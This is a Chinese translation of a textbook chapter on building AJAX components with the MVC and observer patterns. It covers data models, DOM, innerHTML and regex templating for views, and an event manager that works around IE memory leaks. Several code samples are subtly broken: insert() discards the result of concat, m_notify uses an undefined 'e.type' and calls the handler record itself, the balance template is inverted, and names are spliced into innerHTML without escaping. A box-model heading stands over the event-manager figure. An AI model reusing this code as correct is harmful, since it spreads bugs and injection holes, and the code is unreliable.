在实现组件的视图（这可能是最简单的部分）之后，你需要创建一个控制器，它在 ATM 示例中充当实际的 ATM 计算机。ATM 的控制器负责选择诸如向用户呈现哪些操作（即哪个视图），并根据用户通过视图选择的操作执行特定动作。

如果用户想查询账户余额，他可能会在 ATM 屏幕上看到一个选项列表，当按下“查询余额”按钮时，会以通用方式向控制器发送一条包含操作信息的消息。为了响应这个请求，控制器从模型中检索适当的数据，并以不同的视图呈现。因此，控制器本质上定义了我们的应用界面如何根据用户手势进行响应和变化。更一般地说，控制器负责以下职责：

- 定义应用行为
- 将用户手势映射到模型更新
- 根据用户手势选择或更新视图

每当用户与应用交互时，控制器负责决定该做什么；它本质上定义了应用的行为。任何用户手势都会由控制器处理。当任何视图需要更改时，它们由控制器指示。当 AJAX 组件加载时，是控制器决定呈现哪个视图以及使用模型中的哪些数据。使用 JavaScript 作为控制器，你可以创建逻辑来决定应用在不同条件下以及对各种用户手势的响应行为。

为了响应用户手势，控制器还充当数据从视图流向模型的管道，数据在模型中可以持久化到数据库，并触发对其他视图的更新。根据应用的不同，控制器需要准备好接收来自视图的各种类型的事件请求，这些请求可以更改模型中与应用状态或应用正在处理的实际数据相关的信息。

在 AJAX 应用中，用户手势会导致通过 DOM 事件模型触发事件。正如你在第 2 章“AJAX 构建块”中所看到的，DOM 事件模型使你能够将不同 DOM 元素的鼠标点击和按键等事件连接到 MVC 架构控制器层中的不同事件处理器。

特别是，用户手势通常会导致视图的更改，这意味着控制器需要根据用户交互来更改活动视图或启用一个完全不同的视图。

### 模型

到目前为止，一切似乎都很好。唯一的问题是我们不太清楚应用的数据实际上来自哪里。此时我们知道，当 ATM 用户想查询他的账户余额时，他需要在视图中按下相应的按钮，然后控制器会收到需要执行某个操作的提示。

当这种情况发生时，控制器需要从模型中检索实际的账户余额，在 ATM 的情况下，模型可能是一个大型机计算机系统。那是我们应用业务逻辑所在的地方，是资金交易发生的地方，是账目检查确保一切正确进行的地方。

当我们的控制器被要求显示账户余额时，它将向模型发出适当的数据请求。数据从模型返回后，我们可以使用控制器用返回的数据更新视图。归根结底，模型的职责可以提炼为 AJAX 组件的以下领域：

- 封装应用状态
- 暴露应用 API
- 将更改通知视图

任何 AJAX 组件的首要任务都是管理组件状态。模型负责提供一个接口，通过该接口可以操作和查询应用状态。这可以包括纯数据（如用户账户余额）和应用的元数据，例如关于当前会话的瞬时信息。我们稍后将探讨 MVC 元模型的概念。

因为模型封装了应用的数据，所以它也需要能够被查询这些数据；否则它就没什么用了。控制器通常需要对数据执行一些常见操作，例如创建、读取、更新和删除，这些通常被称为 CRUD（创建、读取、更新、删除）。

模型暴露的所有这些操作都被应用程序利用，以实现视图、控制器与模型的明确分离。同时，将模型作为应用程序其他方面的清晰独立实体，允许应用程序的其他部分在其它上下文中访问和操作模型中可用的模型数据和元数据。

例如，在存储您银行详细信息的大型机上暴露的相同 API 可以用于从 ATM 机或通过网上银行界面访问您的账户信息。

虽然在 ATM 类比中，模型可能对视图知之甚少；但在 AJAX 应用中，模型具备通知视图可能发生的模型更改的能力是相当重要的。当您有多个视图显示来自同一模型的数据时，这一点特别有益，因为通过一个视图发起的数据更改可以自动传播到所有对模型信息感兴趣的其他视图。

在传统应用中，这是一个更难实现的目标，因为从模型到视图的更新通常伴随着最终用户漫长的页面刷新。

## AJAX MVC

现在您对 MVC 模式及其应用于现实世界情况的可能形式有了一个共同的基础概念。让我们更仔细地探讨如何在构建可在整个企业应用中重用的 AJAX 组件的上下文中利用 MVC 模式。

### AJAX 模型

在回顾 MVC 模式的各个方面时，从更具体的视图开始，再回溯到模型这个抽象概念是有用的。然而，当我们开始将 MVC 应用于 AJAX 组件时，从模型开始，然后向上到视图，更具指导意义。

按照这个顺序进行通常更容易以测试驱动的方法编写代码——即在编写代码之前编写测试，并且代码应确保测试通过——我们可以在每一层的基础上构建下一层。

在逻辑上，开发 AJAX 应用程序时我们需要的第一件事是访问我们的数据。实际上，从服务器检索数据是 AJAX 组件中实际使用 AJAX 的唯一部分——大部分所谓的 AJAX 其实只是 DHTML。

我们从一个纯粹的 JavaScript 模型开始，它不与服务器连接，实现了我们的 CRUD 功能。任何模型的基本功能都需要在客户端维护一个数据记录列表，类似于 MySQL `ResultSet` 或 ADO `RecordSet`。

这是我们能创建的最简单的模型，它几乎不包含任何领域信息。记录列表可以以任何数据格式保存，例如 XML 或普通旧 JavaScript 对象（POJO）；然而，简单模型中有一些与存储格式无关的通用功能。

为了适应一个基本的 MVC 模型融入观察者模式，有一些基本方面我们需要考虑。最重要的是，一个基本模型需要为每个重要的 CRUD 操作提供事件。下面是我们定义了一个简单模型的 `DataModel` 类。

```javascript
entAJAX.DataModel = function() {
  this.onRowsInserted = new entAJAX.SubjectHelper();
  this.onRowsDeleted = new entAJAX.SubjectHelper();
  this.onRowsUpdated = new entAJAX.SubjectHelper();
}

entAJAX.DataModel.prototype.insert = function(items, index) { }

entAJAX.DataModel.prototype.read = function() { }

entAJAX.DataModel.prototype.update = function(index, values) {
}

entAJAX.DataModel.prototype.remove = function(index) { }
```

这里，我们根据第 2 章概述的类定义准则，创建了一个名为 `DataModel` 的新 JavaScript 类，它代表了我们的基本模型，在构造函数中实例化了基本事件，并为四个固有的数据操作——CRUD——提供了方法存根。

实际上，`DataModel` 类应该是一个 `abstract`（抽象）类，因为它缺少任何 CRUD 方法的定义，但由于 JavaScript 中没有简单的方法来指示抽象类，目前只能如此。无论如何，`DataModel` 提供了一个良好的基础，我们可以在此基础上为各种类型的数据存储构建更专门化的模型。

请注意，作为 `DataModel` 类属性创建的事件（如 `onRowsDeleted` 等）是 `SubjectHelper` 类型的。`SubjectHelper` 类是观察者模式的实现，如图 3.4 所示。



#### 图 3.4 观察者模式的类图

在这个观察者模式的实现中，我们没有像通常那样有一个实现 `ISubject` 接口的 `ConcreteSubject`（具体主题），而是有一个实现 `ISubject` 接口的 `SubjectHelper` 类。

通过这种方式实现观察者模式，你可以让多个 `SubjectHelper` 类——或者更具体的、继承自 `SubjectHelper` 的类——与一个单独的 `Subject` 相关联，如图 3.5 所示，以 `DataModel` 类为例。



#### 图 3.5 观察者模式详述

使用 `SubjectHelper` 类有几个好处。它不仅有助于将领域逻辑与观察者模式的实现解耦，还允许你为更细粒度的主题创建特定的辅助类。

我们的 `DataModel` 领域对象有几个可能发生的操作，如数据插入、删除和更新。对于这些操作中的每一个，都可能有不同的观察者只对其中一部分事件感兴趣。

在观察者模式中使用 `SubjectHelper`，观察者可以只订阅与他们相关的特定主题，而不是让所有观察者都订阅 `DataModel` 对象本身，从而导致所有观察者都被通知到每一个发生的事件，无论他们是否对该特定事件感兴趣。

可以想象，让所有观察者都订阅领域对象本身而不是他们感兴趣的具体事件，会在运行时产生巨大的开销。我们的 UML 模型中的 `ISubject` 接口在 JavaScript 中看起来像这样：

```javascript
entAJAX.ISubject = function() {
  this.observers = {};
  this.guid = 0;
}

entAJAX.ISubject.prototype.subscribe = function(observer) {
  var guid = this.guid++;
  this.observers[guid] = observer;
  return guid;
}

entAJAX.ISubject.prototype.unSubscribe = function(guid) {
  delete this.observers[guid];
}

entAJAX.ISubject.prototype.notify = function(eventArgs) {
  for (var item in this.observers) {
    var observer = this.observers[item];
    if (observer instanceof Function)
      observer.call(this, eventArgs);
    else
      observer.update.call(this, eventArgs);
  }
}
```

`ISubject` 只有三个方法。特定主题的所有观察者都保存在 `observers` 对象哈希中，可以通过 `subscribe()` 和 `unSubscribe()` 方法分别添加或移除观察者。`notify()` 方法用于遍历观察者集合，并在每个观察者上调用 `update()` 方法。

我们还略微增强了熟悉的观察者模式，允许在观察者对象上指定一个自定义方法来调用，而不是强制要求调用 `update()` 方法。这对于将全局方法指定为事件处理程序非常有用。

尽管我们给 `ISubject` 类加上前缀 `I` 以表示它是一个接口，但鉴于 JavaScript 不支持接口，它更像是一个伪接口或抽象类。考虑到 JavaScript 的动态特性，接口也可以更多地被用作实现多重（单级）继承的手段。

```javascript
entAJAX.SubjectHelper = function() {
  this.observers = {};
  this.guid = 0;
}
```

这是我们首次利用 JavaScript 的继承模型。实际上，我们定义了一种简单的方式来提供接口，同时允许使用默认值。虽然我们无法确保子类实现接口的所有方法，但我们可以至少确保要实现的方法在接口本身中有一些默认的实现。

诚然，这有点取巧，但它确实为我们提供了同时实现经典继承和接口的手段。我们实现接口的方式实际上可以被视为多重、单级继承。

为了让我们的继承能够工作，在定义类之后，我们必须立即调用 `entAJAX.extend`，并将子类和父类作为两个参数传入，大致如下：

```javascript
entAJAX.implements = function(klass, interface) {
  for (var item in interface.prototype) {
    klass.prototype[item] = interface.prototype[item];
  }
}
```

```javascript
entAJAX.SubjectHelper = function()
{
   ...
}

entAJAX.implement(entAJAX.SubjectHelper, entAJAX.ISubject);
```

现在，我们可以通过创建一个新的 `SimpleDataModel` 类来填充抽象 `DataModel` 类的 CRUD 方法，该类继承自 `DataModel` 类，并实现了以特定方式管理数据的方法存根的细节。

我们如何存储数据取决于许多问题，其中最重要的是数据的用途和目标最终用户的浏览器。首先，我们使用 JavaScript `Array` 中的任意对象来存储数据。这使得我们的 CRUD 操作非常简单，并且意味着它应该与来自服务器或客户端的 JSON 格式数据互操作。

`SimpleDataModel` 类可以实现 CRUD 方法，并确保为这些方法触发相应的事件。`SimpleDataModel` 看起来像这样：

```javascript
entAJAX.SimpleDataModel = function()
{
   // 调用基构造函数来初始化事件对象
   entAJAX.SimpleDataModel.baseConstructor.call(this);
   // 模型中的记录列表
   this.Items = [];
}

// 继承自DataModel
entAJAX.extend(entAJAX.SimpleDataModel, entAJAX.DataModel);

entAJAX.SimpleDataModel.prototype.insert = function(items, index)
{
   this.Items.concat(items);
   this.onRowsInserted.notify({"source":this, "items":items});
}

entAJAX.SimpleDataModel.prototype.read = function(query)
{
   return this.Items;
}

entAJAX.SimpleDataModel.prototype.update = function(index, values)
{
  var item = this.Items[index];
  for (var field in values)
  {
    item[field] = values[field];
  }
  this.onRowsUpdated.notify({"source":this, "items":[item]});
}

entAJAX.SimpleDataModel.prototype.remove = function(index)
{
  var item = this.Items.splice(index, 1);
  this.onRowsDeleted.notify({"source":this, "items":[item]});
}
```


CRUD 操作相当基础，并使用了 `Array` 对象上的原生 JavaScript 方法，如 `concat()` 和 `splice()`，以保持简单和快速。我们让 `SimpleDataModel` 对存储在数组中的数据类型保持无感知，但很快我们会探讨通过强制使用更强类型的数据行可以做出的一些改进。

在 `SimpleDataModel` 中需要注意的重要一点是，在每个 `create()`、`update()` 和 `remove()` 方法中，我们分别调用了 `onRowsInserted`、`onRowsUpdated` 和 `onRowsDeleted` 属性的 `notify()` 方法。在 MVC 的上下文中，将数据变化通知给观察者，使我们能够通知视图模型数据的变化。为了通知视图数据的变化，我们至少需要两样东西：一个模型发送通知的事件列表，以及一个已注册要接收通知的对象列表。这些都由 `SubjectHelper` 类管理。

为了利用观察者模式，我们需要定义其他对象可能感兴趣监听的事件。在模型的情况下，一些事件可能是诸如 `RowInserted`、`RowDeleted` 等。这些事件的性质完全取决于应用程序架构师，并且高度依赖于应用程序。

在向模型插入数据的情况下，会触发 `OnRowsInserted` 事件；所谓触发，我们只是指调用了 `notify()` 方法。在 `insert()`、`update()` 和 `remove()` 方法的末尾，我们添加了一行代码：

```
this.onRowsInserted.notify({"source":this, "items":items});
```

传递给 `notify()` 方法的参数，随后会被提供给观察者的 `update()` 调用。这使得观察者能够接收到关于所发生事件的上下文信息。

就 `SimpleDataModel` 类的 `create()` 方法而言，我们希望实际向事件处理程序提供关于所创建的特定数据的信息，以便它能对该数据采取某些操作。根据开发方法论，创建一个 `RowsCreatedEventArgs` 类可能更为审慎，而不是使用结构体作为向观察者传递信息的数据结构。

通常，使用 JavaScript 类最有说服力的原因是文档完备性和编程便利性。另一种选择是不将事件信息传递给观察者的 `update()` 方法，而是让观察者通过 `SubjectHelper` 上的方法（如 `getData()`）来请求信息。如果一个事件关联了大量数据，并且大多数观察者并不使用这些数据，那么这种方法可能是可行的。

这是一个简化的模型。最明显的遗漏是数据存储在 JavaScript 数组中，与服务器没有持久化连接，因此仅在应用程序运行期间存在。尽管我们展示了一个完全基于 JavaScript 的模型，但我们同样可以使用客户端上的替代数据存储方式，例如 XML 文档。

如果你的服务器环境提供或使用基于 XML 的数据，或者你的应用程序需求将数据互操作性确定为高优先级，那么 XML 可能是一个不错的选择。XML 还可以利用 XSLT，这可以在计算、技术甚至开发工作流方面简化构建 AJAX 视图的过程。此外，基于 XML 的数据可以使用 XSLT 在客户端轻松高效地进行操作（想想分组和透视）。

然而，无论我们如何在客户端存储数据，它都无法解决数据在用户关闭 Web 浏览器或访问其他网站时被销毁的问题。

通过重构此代码，我们可以集成一些 AJAX 功能，用于在服务器上加载和保存数据，在某些情况下，甚至可以使用特定于浏览器的技术或 Flash 在客户端进行。至少，这个简单的模型为我们提供了一个良好的框架，我们可以开始在 Web 浏览器 JavaScript 沙箱中操作数据，并且应该足以通过我们的事件驱动控制器将其连接到基于 DOM 的视图。

在模型从客户端跨越网络延伸到服务器之后，我们可以研究如何利用一些更重要的设计模式，例如由 Ruby on Rails 平台普及的 `ActiveRecord`。利用这些众所周知的模式，如 `MVC`、`Observer` 和 `ActiveRecord`，在构建高性能、易用的 AJAX 应用程序时，可能是一个关键的差异化因素。

为了将模型背后的思想整合起来，让我们看一个简短的例子。我们首先创建一个实现 `IObserver` 接口的 `Listener` 类——实际上，这意味着它实现了一个 `update()` 方法。然后，将 `Listener` 类的一个实例订阅到 `SimpleDataModel` 的 `onRowsInserted` 事件。现在，当我们手动调用 `SimpleDataModel` 类实例上的 `create()` 方法时，订阅的观察者上的 `update()` 方法将被执行。

```
// 创建一个简单的类来监听更新
Listener = function() {}
// 当接收到更新时，只需调用 alert
Listener.prototype.update = function(eventArgs) {
  alert(eventArgs.type + ' - ' + eventArgs.data.getFullName());
}

// 创建监听器的一个实例
var CustomerListener = new Listener();

// 创建一个新的空数据模型
var CustomerModel = new entAJAX.SimpleDataModel();

// 注册 CustomerListener 对象以监听数据变化
CustomerModel.onRowsInserted.subscribe(CustomerListener);

// 最后插入一个新客户，我们应该会看到我们的 alert
CustomerModel.insert(new Customer('John', 'Doe');
```

如果我们将此集成到一个更大的示例中，该示例因某些用户交互而将客户记录插入数据库，并随后更新应用程序视图，那么时序图可能类似于图 3.6。



**图 3.6** 说明 `MVC` 模式上下文中 `SimpleDataModel` 用法的时序图

既然我们有了一些数据可供操作，我们可以更仔细地研究如何为 AJAX 应用程序构建数据驱动的 MVC 视图。

### AJAX 视图

在我们有了模型之后——无论是完全在客户端还是跨越客户端和服务器——我们可以使用视图来渲染模型中存在的信息。

在传统的 N 层 Web 架构中，应用程序的表现层、业务逻辑和数据访问组件被清晰地分离，视图在服务器上生成，HTML 被流式传输到客户端进行呈现。用户手势从视图传播到控制器，通过完整的 HTTP POST 请求返回服务器，在那里处理任何客户端信息，并创建新的视图流式传输到客户端。

视图通常使用某种脚本语言生成，如 PHP 或更功能强大的 Java，而 Java 又可能使用其他一些模板技术，如 XSLT、Velocity (Java) 或 Smarty (PHP)。

当我们考虑 AJAX 中的 MVC 视图时，本质上只有两个选择。

最常见的是，视图的更改完全在客户端使用客户端模板或 DOM 操作完成。在客户端执行所有视图变更是 AJAX 的精髓，并可用来创建真正丰富的用户界面。

不太常见但通常用于复杂逻辑或利用遗留资源的情况，是在服务器上生成小部分视图，这些视图在后台被检索并直接放置到 DOM 中，客户端几乎没有或没有逻辑。门户通常在数据来自许多不同数据源的小块数据时使用这种架构。在第 6 章“AJAX 架构”中，我们将探讨 AJAX 架构的一些更细微之处。

作为介绍，我们将自己限制在进行一些基本的 JavaScript 操作。我们已经提到，在构建视图时有几个选项需要考虑。为构建视图选择正确的选项意味着要考虑各种因素，例如服务器和客户端的性能、服务器负载、可维护性、可测试性和开发者的技能组合。

从列表中看，性能是最重要的；最初转向 AJAX 架构的主要原因之一是传统基于回发的 Web 应用程序固有的性能问题。JavaScript 作为解释型语言，往往速度较慢，根据应用程序的不同，JavaScript 解释器的速度可能成为主要瓶颈。

构建视图最明显的解决方案是使用 DOM 提供的方法来操作 DOM 元素。我们在第 2 章中查看了其中一些方法，例如 `document.createElement()`、`document.appendChild()` 等。

例如，如果我们想使用 DOM（而不是字符串连接）创建一个关于客户信息的视图，我们可以这样做：

```
var aCustomerList = CustomerData.read();
var iCustomers = aCustomerList.length;
for (var i=0; i<iCustomers; i++) {
  var dCustomerDiv = document.createElement('DIV');
  var sCustomerName = aCustomerList[i].getFullName();
  var dCustomerName = document.createTextNode(sCustomerName);
  dCustomerDiv.appendChild(dCustomerName);
  document.body.appendChild(dCustomerDiv);
}
```

请注意，因为 JavaScript 不是编译语言，并且开发者并不总是在具有代码自动完成功能的集成开发环境（IDE）中编辑代码，所以在变量名前添加前缀以标识变量类型会很有帮助，例如以下：

```
var aVariable = []; // 数组
var dVariable = $("myDomNode"); // 通过 DOM id 标识的对象
var sVariable = "string"; // 字符串
var nVarialbe = 1; // 数字
```

在此代码清单中，我们使用了标准 DOM 方法；然而，你也可以选择在构建表格结构时常被忽视的 `<table>` 特定 DOM 方法。

在大多数情况下，`<table>` 标签已被弃用，取而代之的是使用 `<div>` 元素和 CSS 进行布局。使用 `<table>` 元素的两个优点是渲染速度快，并且大多数 Web 页面无障碍软件（如 Freedom Scientific 的 JAWS）使用 `<table>` 元素标记来获取有关网页中计划数据的信息（更多内容见第 8 章“AJAX 可用性”）。

尽管从 XML 的角度处理问题时，使用标准 DOM API 相当直观，但也有一些值得注意的替代方案。最常见的方法，正如我们提到的，是使用事实上的标准 HTML 元素 `innerHTML` 属性。

`innerHTML` 是将大量数据放入网页的最快方式，通常也是最简单的。通常，使用 DOM API 比使用 `innerHTML` 操作 DOM 更慢。（我们稍后会展示一些基准测试结果。）

鉴于使用 `innerHTML` 是最快的方法，并且它接受字符串值，那么生成视图的真正问题就变成了如何创建 `innerHTML` 属性设置的 HTML 字符串。正如你可能猜到的，快速但简陋的方法是通过将字符串连接在一起来构建字符串，从而构建你的 HTML。

如果我们想创建一个客户名称列表并将它们插入 DOM，我们可以将我们之前的 DOM 操作代码改为更像这样：

```
var sCustomerList = "";
var aCustomerList = CustomerModel.read();
```

```
var iCustomers = aCustomerList.length;
for (var i=0; i<iCustomers; i++) {
  sCustomerList +=
'<div>'+aCustomerList[i].getFullName()+'</DIV>');
}
$('CustomerList').innerHTML = sCustomerList;
```

这不仅减少了代码量，而且相应地也快得多。虽然大多数 JavaScript 框架都提供某种简单的字符串构建 API，但与许多其他编程语言不同的是，JavaScript 没有优化的字符串构建功能，所以我们只能满足于简单的字符串拼接。

说到这里，大多数开发者都会感叹字符串拼接居然是构建 HTML 片段的推荐方式。幸运的是，为了既避免丑陋的字符串拼接，又避免缓慢的 DOM API，我们可以利用一些模板技术。

从保持开发工作流程和代码清晰分离的角度来看，使用模板无疑是最吸引人的选择。模板化可以拥有不同程度的复杂性和性能。一个基本的模板方案可以通过一些特殊语法来实现——正如大多数模板技术所利用的——正则表达式。

继续围绕构建客户姓名列表这一主题，让我们首先定义一个基本模板，用于在列表中显示每个客户姓名。该语法使用 `${ObjectProperty}` 来指定替换值，表示当前 JavaScript 执行上下文的 `ObjectProperty` 应被放置到模板中的该位置。因此，对于我们的客户列表，它可能看起来像这样：

```
<div>${firstName} ${lastName}</div>
```

要将模板应用于某些数据，我们可以使用一个类似这样的函数：

```
function Render(oCustomer, sTemplate) {
  while ((match = /\$\{(.*?)\}/.exec(sTemplate)) != null) {
    sTemplate = sTemplate.replace(match[0],
oCustomer[match[1]]);
  }
  // Return the filled in template
  return sTemplate;
}
```

这使我们能够创建基本模板，对给定对象的各种属性进行查找和替换。请注意，我们实际上使用了正则表达式来查找和替换模板中的适当信息——与大多数语言一样，JavaScript 也掌握着正则表达式的强大威力。

我们可以重构此功能，以包含调用对象上的方法、调用其他全局方法、基于数据进行条件判断或循环等。虽然在模板中加入条件判断和循环似乎很有用，但这会使模板的构建和维护变得更加困难。

此外，通过将逻辑保持在 HTML 模板之外，我们的数据和表示层仍然很好地分离开来。我们还可以为给定用户界面部分制作多个模板，并使用 JavaScript 来评估某些条件值。

例如，我们可以根据客户的账户余额是正数还是负数，对其数据应用不同的模板，就像这样：

```
function Render(oCustomer, sPositiveTemplate,
sNegativeTemplate) {
  var sTemplate = sPositiveTemplate;
  if (oCustomer.balance > 0) {
    sTemplate = sNegativeTemplate;
  }
  while ((match = /\$\{(.*?)\}/.exec(sTemplate)) != null) {
    sTemplate = sTemplate.replace(match[0],
oCustomer[match[1]]);
  }
  // Return the filled in template
  return sTemplate;
};
```

使用这种技术，模板调试的工作量大大减少，而且模板中不包含任何程序逻辑，使其更具可重用性，也更容易让设计人员在脱离应用程序其余部分的情况下独立构建。

他们只需要知道，在某些情况下，客户姓名会以两种不同的方式呈现，一种表示客户有未结余额，另一种表示没有未结余额。尽管如此，使用功能更完善的模板系统（如 XSLT）或 JavaScript 原生方法（如 JSON 模板化（JSONT））仍有其价值。我们将在下一章中更深入地探讨其中一些方法。

### AJAX 控制器

现在我们已经了解了基本的模型以及创建视图的一些基础知识，我们需要将它们粘合在一起，构建一个终端用户能够实际交互的应用程序。在 MVC AJAX 应用程序中，将所有内容粘合在一起的是控制器。

由于控制器的性质——响应用户操作并协调视图和模型——控制器高度依赖于 DOM 事件 API。我们在第 2 章中讨论了大量 DOM 事件模型，并展示了如何以跨浏览器友好的方式将事件附加到 DOM 元素。

有一个重要的考虑因素我们没有考虑到，那就是在 Internet Explorer 中，存在一个众所周知的内存泄漏问题。该内存泄漏最常见与在 Internet Explorer 中附加 DOM 事件有关。

在某些情况下，附加事件处理程序时可能会在 DOM 和 JavaScript 之间创建一个循环。这种情况发生在使用匿名函数或闭包作为事件处理程序时，并且匿名函数捕获的执行作用域中包含一个指向该匿名函数所附加到的 HTML 元素的引用。这一概念在以下代码中得到了说明：

```
<html
  <head>
    <script type="text/javascript">
var example = {};
example.init = function() {
  var customers = $("customerList");
  customers.onclick = function() {this.style.fontWeight =
"bold"};
}
window.onload = example.init;
    </script>
  </head>
  <body>
    <div id="customerList">
      <div>Jim</div><div>Bob</div><div>Mike</div>
    </div>
  </body>
</html>
```


在`example.init`函数中，我们获取了对 id 为 `"customerList"` 的 HTML 元素的引用，然后将该 HTML 元素的`onclick`属性设置为一个匿名函数。与任何闭包一样，该匿名函数捕获了`example.init`函数的局部作用域，其中包括`customers`变量，它指向与匿名函数现在所附加的同一 HTML 元素，因此，我们形成了一个循环引用。这本身并不是什么问题，但如果此循环引用在页面重新加载之前没有被销毁，那就成了问题，因为否则该内存就会丢失，原因是那些循环引用的 JavaScript 和 DOM 对象对 Internet Explorer 的垃圾回收算法免疫。此问题在 IE 6 和 IE 7 中都存在，因此我们需要一个变通方案。

我们需要的是一种通用且不引人注目的方法来管理这个问题。虽然处理起来可能很烦人，而且尽管“这只是 JavaScript”，但在复杂的应用程序中，这种内存泄漏实际上可能会变得相当失控。特别是企业应用程序通常会被长时间使用，即使是很小的内存泄漏也会逐渐积累并严重妨碍性能。管理此问题的推荐方法是跟踪所有附加了事件处理程序的 HTML 元素，并在网页卸载时随后分离这些事件处理程序。

为了帮助减轻我们的事件管理之苦，我们遵循单例模式创建一个事件对象，通过它可以在跨浏览器环境中将事件附加到 HTML 元素以及从 HTML 元素分离事件。与其费心在事件管理类上设置正式的单例`getInstance`方法，不如利用 JavaScript 的特性，创建一个在网页存在期间始终存在的单一`EventManager`对象。

我们处理事件管理的一般方法是在 JavaScript 中跟踪所有已附加的事件，并且只给给定元素附加一个针对任何给定事件的单一事件处理程序，而不是将每个事件处理程序显式地附加到 HTML 元素上。该单一事件处理程序是`EventManager`对象上的一个方法，其职责是将特定事件委托给我们手动管理的每个事件处理程序。

这种事件处理方式有几个重要的优点。虽然规避 Internet Explorer 垃圾回收的问题是事件管理策略的一个主要目标，但还有其他几个重要的目标，这种方法也将帮助我们实现以下目标：

- 以跨浏览器方式附加事件处理程序
- 启用事件捕获
- 提供对全局`Event`对象的访问
- 提供对事件触发元素的访问
- 提供对事件处理元素的访问
- 防止 Internet Explorer 内存泄漏

## 传统与 W3C 盒子模型

如果我们将事件管理包装在一个“正式的”单例类中，而不是在`entAJAX`命名空间中使用静态方法和属性，那么`EventManager`类的定义将如图 3.7 所示。

**图 3.7 传统与 W3C 盒子模型**



最重要的是包含对所有已注册事件处理程序的 HTML 元素引用的私有`m_elements`数组。这个数组是我们手动管理所有元素、关联事件和事件处理程序的地方，而不是将每个事件处理程序显式附加到元素上。附加过程会在 HTML 元素上设置一个特殊的 expando 属性，该属性包含手动管理事件所需的所有信息。用于事件附加和通知的 JavaScript 代码如下所示：

```javascript
// 单例对象。

entAJAX.EventManager = {};

entAJAX.EventManager.attachEvent =

  function(element, type, handler, context, capture)

{

  // 递增唯一id以保持其唯一性

  var handlerGuid = this.handlerId++;

  var elementGuid = this.elementId++;

  // 检查处理程序是否已经有唯一标识符

  if (typeof handler.ea_guid != "undefined")

    handlerGuid = handler.ea_guid;

  else

    handler.ea_guid = handlerGuid;

  // 检查HTML元素上的expando ea_guid属性是否已定义

  if (typeof element.ea_guid == "undefined")

  {

    element.ea_guid = elementGuid;

    // 将元素添加到私有elements数组

    this.m_elements[elementGuid] = element;

  }

  // Expando ea_events包含元素已注册的事件

  if (typeof element.ea_events == "undefined")

    element.ea_events = {};

  // 检查事件类型是否已在ea_events expando中

  if (element.ea_events[type] == null)

  {

    element.ea_events[type] = {};

    // 浏览器检查，区分IE / W3C

    if (element.addEventListener)

    {

      // W3C事件附加

      element.addEventListener(type, function () {

        entAJAX.EventManager.m_notify.call(this, arguments[0], element)

      }, capture);

    }

    else if (element.attachEvent)

    {

      // IE事件附加

      element['ea_event_'+type] = function () {

        entAJAX.EventManager.m_notify.call(this, window.event, element);

      };

      // 需要使用Detach来避免内存泄漏！

      element.attachEvent('on'+type, element['ea_event_'+type]);

      // 支持事件捕获以及冒泡

      if (capture) element.setCapture(true);

    }

  }

  // 将处理程序添加到列表中，跟踪处理程序和上下文

  element.ea_events[type][handlerGuid] = {

    'handler': handler,

    'context': context};

}
```

这里有很多代码需要理解。如前所述，事件管理旨在第一次为特定事件类型使用时，使用浏览器特定的`element.attachEvent()`或`element.addEventListener()`方法将事件处理程序附加到 HTML 元素。在第一次将事件处理程序附加到元素的特定事件类型时，指定的处理程序是静态的`entAJAX.EventManager.m_notify()`方法，该方法负责实际执行我们在`m_elements`数组中手动管理的所有真实事件处理程序。`m_notify()`方法如下所示：

```javascript
entAJAX.EventManager.m_notify = function(eventObj, element)

{

  // 将全局entAJAX.Event对象设置为事件对象

  entAJAX.Event = eventObj;

  // 对象增强以跟踪处理事件的元素

  entAJAX.Event.handlerElement = element;

  if (!entAJAX.IE)

  {

    entAJAX.Event.srcElement = eventObj.target;

    entAJAX.Event.fromElement = eventObj.relatedTarget;

    entAJAX.Event.toElement = eventObj.relatedTarget;

  }

  for (var handlerGuid in element.ea_events[e.type])

  {

    var handler = element.ea_events[e.type][handlerGuid];

    if (typeof handler.context == "object")

      // 在JavaScript对象的上下文中调用处理程序

      handler.call(handler.context, eventObj, element);

    else

      // 在事件触发的元素的上下文中调用处理程序

      handler.call(element, eventObj, element);

  }

}
```

